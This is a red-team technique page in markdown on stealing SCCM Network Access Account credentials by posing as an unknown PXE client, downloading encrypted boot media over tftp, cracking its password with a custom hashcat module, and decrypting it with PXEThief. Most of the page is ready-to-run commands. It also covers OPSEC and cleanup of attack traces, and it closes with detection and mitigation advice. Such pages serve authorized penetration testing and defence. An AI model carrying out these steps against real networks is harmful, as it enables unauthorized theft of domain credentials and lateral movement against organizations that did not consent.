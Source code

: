 ```yaml
---
tags:
  - type/technique
  - tactic/TA0006
  - technique/T1547003
  - technique/T1552001
  - stage/initial-access
  - stage/credential-access
  - os/windows
  - tool/pxethief
  - tool/hashcat
  - service/sccm
  - service/pxe
aliases:
  - SCCM PXE Boot Attack
  - PXEThief NAA Credential Theft
  - Crack SCCM PXE Media Password
  - SCCM Task Sequence Credential Harvesting
---
```



## Technique
___
This technique provides initial access by exploiting the **Pre-Boot Execution Environment (PXE)**, a standard for booting computers over the network. In corporate environments, PXE is commonly used by **System Center Configuration Manager (SCCM)** to deploy operating systems.

An attacker on the local network can masquerade as a new computer requesting a boot image. By capturing the SCCM boot media files, the attacker can perform an offline password cracking attack to decrypt them. A successful decryption reveals sensitive information, most notably the credentials for the **Network Access Account (NAA)** or domain join accounts, which can be used for initial access and privilege escalation within the Active Directory domain.

!!! alert "note"
	The presence of PXE is a common indicator that SCCM is being used as well, but not always



## Prerequisites
___
**Access Level:** An attacker needs to be on the same local network (broadcast domain) as the SCCM PXE-enabled Distribution Point. No prior domain credentials are required.

**System State:**

- A PXE-enabled SCCM Distribution Point must be accessible on the network.
    
- The attacker's machine must be a Windows system to run the required tool, `PXEThief`.
    
- The attacker's machine must be seen as an "Unknown Computer" by SCCM.
    
- A `tftp` client is required to download boot files.
    
- `hashcat` and a custom SCCM hashcat module are needed for password cracking.
    

**Information:** The IP address of the SCCM Distribution Point (DP) is helpful, though it can sometimes be discovered.

## Considerations
___

**Impact**

A successful attack grants the attacker highly valuable credentials. The **Network Access Account** and **Domain Join Account** often have permissions to read from most Active Directory objects and write to computer objects, providing a significant foothold for lateral movement and further exploitation.

**OPSEC**

- Initial PXE/DHCP requests are broadcast traffic and may not appear suspicious.
    
- The `tftp` file transfer is unencrypted and could be flagged by network monitoring.
    
- Subsequent authenticated requests to the SCCM Management Point (MP) originate from an attacker-controlled, unmanaged device, which could be an indicator of compromise if client origins are monitored.

## Identify
___
The primary method for identifying a vulnerable PXE server is to use the `PXEThief` tool. While it has a discovery option, directly targeting a known or suspected SCCM server IP address is more reliable.
[https://github.com/MWR-CyberSec/PXEThief](https://github.com/MWR-CyberSec/PXEThief)

!!! alert "note"
	 PXEThief  should only be used on windows due to the pywin32 dependency, it also works best with python 3.10 

```powershell
python pxethief.py 2 <DISTRIBUTION_POINT_IP>
```
A successful response will provide the file paths for the .boot.var and .boot.bcd files on the server's TFTP share.

## Execution
___
**Step 1: Request Boot Media Paths**

Use PXEThief to coerce the DP into providing the location of the encrypted boot media files.

```powershell
python pxethief.py 2 <IP>
```

This will output the full paths to the `.boot.var` and `.boot.bcd` files.

**Step 2: Download the Encrypted Boot Variable File**

Use the `tftp` client to download the `.boot.var` file from the Distribution Point.

```powershell
tftp -i <DISTRIBUTION_POINT_IP> GET "\\SMSTemp\\<...>.boot.var" "<...>.boot.var"
```

**Step 3: Extract the Hash for Cracking**

Use `PXEThief` with option 5 to process the downloaded `.boot.var` file and generate a crackable hash.

```powershell
python pxethief.py 5 '.\\<...>.boot.var'
```

A specific [hashcat module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module) must be used to crack the hash. Here is how to install it:

```bash
cd hashcat_pxe/
git clone https://github.com/hashcat/hashcat.git
git clone https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module
cp configmgr-cryptderivekey-hashcat-module/module_code/module_19850.c hashcat/src/modules/
cp configmgr-cryptderivekey-hashcat-module/opencl_code/m19850\* hashcat/OpenCL/
cd hashcat
git checkout -b v6.2.5 tags/v6.2.5 # change to 6.2.5
make
```


Then, the hash can be cracked with hashcat's module `19850` and a password wordlist:

```bash
hashcat/hashcat -m 19850 --force -a 0 hashcat/hash /usr/share/wordlists/rockyou.txt
```

**Step 5: Decrypt Media and Extract Credentials**

Use `PXEThief` with option 3, providing the downloaded `.boot.var` file and the cracked password to decrypt the contents and automatically extract credentials.

```powershell
python pxethief.py 3 '.\\<...>.boot.var' "Password123!"
```

The tool will parse the decrypted data and display any found usernames and passwords for accounts like the NAA.

## Cleanup Considerations
___
- Delete all downloaded artifacts from the attack machine, including the `.boot.var`, `.boot.bcd`, `variables.xml`, and the exported `.pfx` certificate file.
    
- Remove the client certificate imported by `PXEThief` from the Windows Certificate Store.

## Detection & Mitigation
___
#### **Detection**

- **Network Monitoring:** Monitor for unusual `tftp` traffic or a high volume of PXE boot requests from a single source.
    
- **Log Analysis:** Audit SCCM and domain controller logs for authentication events tied to the Network Access Account originating from unexpected or unmanaged IP addresses.
    
- **Endpoint Monitoring:** Look for the execution of `PXEThief.py` or `tftp.exe` on non-administrative workstations.
    

#### **Mitigation**

- **Strong Passwords:** Protect the PXE boot media with a **strong, complex, and long password**. This makes offline cracking significantly more difficult and time-consuming.
    
- **Least Privilege:** Strictly enforce the principle of least privilege for the Network Access Account and any domain join accounts. They should have the absolute minimum permissions required to function.
    
- **Network Segmentation:** Use VLANs and firewall rules to restrict which network segments can communicate with SCCM Distribution Points on required ports (e.g., DHCP, TFTP).
    
- **Regular Audits:** Regularly audit and rotate the credentials used for PXE boot and within Task Sequences.